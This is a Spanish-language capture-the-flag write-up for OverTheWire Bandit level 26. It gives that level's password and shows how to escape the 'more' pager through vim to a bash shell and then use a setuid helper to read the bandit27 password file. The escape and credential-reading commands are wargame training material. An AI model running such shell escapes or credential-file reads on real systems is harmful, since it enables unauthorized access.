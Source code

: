 # Level 26
## Objetivo
Good job getting a shell! Now hurry and grab the password for bandit27!
## Datos de Acceso
bandit26
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
## Solucion
--More--(66%) v _ _ _ _ ___ __ | | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_ \ | |_) | (_| | | | | (_| | | |_ / /| (_) | "~/text.txt" [readonly] 6L, 258B :set shell=/bin/bash :shell [No write since last change] 
bandit26@bandit:~$ 
bandit26@bandit:~$ ls 
bandit27-do text.txt 
bandit26@bandit:~$ ./bandit27-do id uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26) 
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27 YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS 
bandit26@bandit:~$ 
bandit26@bandit:~$ exit
:qa! 
q
## Notas Adicionales
|comando|descripcion|
|-------|-----------|
|xxx|xxx|
## Referencias